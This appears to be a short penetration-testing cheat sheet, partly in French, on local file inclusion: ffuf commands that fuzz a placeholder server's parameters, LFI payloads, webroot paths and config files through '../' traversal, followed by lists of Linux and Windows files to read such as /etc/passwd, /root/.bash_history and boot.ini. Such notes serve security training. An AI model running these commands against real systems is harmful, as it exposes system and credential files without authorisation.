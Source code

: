 
Fuzz page parameters

```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

Fuzz LFI payloads

```sh
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287 
```

Fuzz webroot path

```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287 
```

Fuzz server configurations

```sh
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287 
```

---

Fichiers de système d'exploitation courants a utiliser.

**Linux**

```sh
/etc/issue
/etc/passwd
/etc/os-release
/proc/version
/etc/profile
/root/.bash_history
/var/log/dmessage
/var/mail/root
```

**Windows**

```sh
c:\boot.ini
../../../../boot.ini
../../../../windows/win.ini
```


